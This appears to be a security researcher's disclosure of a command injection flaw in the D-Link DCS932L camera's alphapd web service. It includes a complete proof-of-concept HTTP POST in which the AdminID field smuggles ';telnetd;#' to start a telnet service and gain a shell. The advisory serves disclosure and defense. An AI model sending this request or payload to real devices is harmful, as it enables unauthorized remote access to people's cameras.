


# D-Link Vulnerability

Vendor:D-Link

Product:DCS932L

Version:2.18.01

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `alphapd` binary:

In `setSystemAdmin` function, `AdminID` is directly passed by the attacker, so we can control the `AdminID` to attack the OS.

<div  align="center"></div>


## PoC

We set `AdminID` as **';telnetd;#** , and the router will excute it,such as:

```http
POST /setSystemAdmin HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 336
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.2/advanced.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=530463636a12636a07636a1863530563c7046363051263c70763961863180563c7046363051263c70763961863180563c7046363051263c70763961863180563&SessionKey=1451606489&ConfigSystemAdmin=Save
```


## Result

Get a shell!

<div  align="center"></div>
